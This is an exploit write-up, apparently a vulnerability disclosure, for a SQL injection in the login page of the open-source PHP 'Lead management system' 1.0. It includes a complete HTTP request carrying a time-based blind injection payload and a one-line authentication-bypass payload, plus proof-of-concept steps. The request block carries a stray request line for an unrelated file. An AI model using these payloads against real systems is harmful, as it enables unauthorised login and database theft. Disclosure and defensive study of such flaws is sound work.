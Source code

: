 # Lead management system - login.php 'username' SQL inject

#### Exploit Title: Lead management system - login.php 'username' SQL inject

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: https://www.sourcecodester.com/php/15933/lead-management-system-php-open-source-free-download.html

#### Software Link:https://www.sourcecodester.com/php/15933/lead-management-system-php-open-source-free-download.html

#### Version: Lead management system 1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Lead management system does not filter the content correctly at the "login.php /username" parameter, resulting in the generation of SQL injection.

#### Payload used:

```POST /medicine_details.php HTTP/1.1
POST /login.php HTTP/1.1
Host: 192.168.67.10:8091
Content-Length: 97
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.67.10:8091
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.67.10:8091/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=g1diqn5ba9l5npktcpl5jc287t
Connection: close

username=1' AND (SELECT 6691 FROM (SELECT(SLEEP(5)))slLY) AND 'lrcD'='lrcD&password=123456&login=
```

#### Proof of Concept

1、Grab the package at the login and find that the login program is in login php

 ![image](https://github.com/joinia/webray.com.cn/blob/main/lead-management-system/images/login.png)

2、Looking at the source code, it is found that the password field is directly brought into the SQL statement query without filtering

 ![image](https://github.com/joinia/webray.com.cn/blob/main/lead-management-system/images/code.png)

3、Use payload "sleep (5)" for blind SQL injection.It is found that the time blind injection is successful

 ![image](https://github.com/joinia/webray.com.cn/blob/main/lead-management-system/images/timesql.png)

4、We can also construct a payload for universal password login

payload:`username=1'or 1=1 #&password=123456&login=`

 ![image](https://github.com/joinia/webray.com.cn/blob/main/lead-management-system/images/loginwithanyuser.png)

4、Through testing with the tool, it is found that there are other injection methods such as blind SQL time injection.

 ![image](https://github.com/joinia/webray.com.cn/blob/main/lead-management-system/images/sqlmap.png)

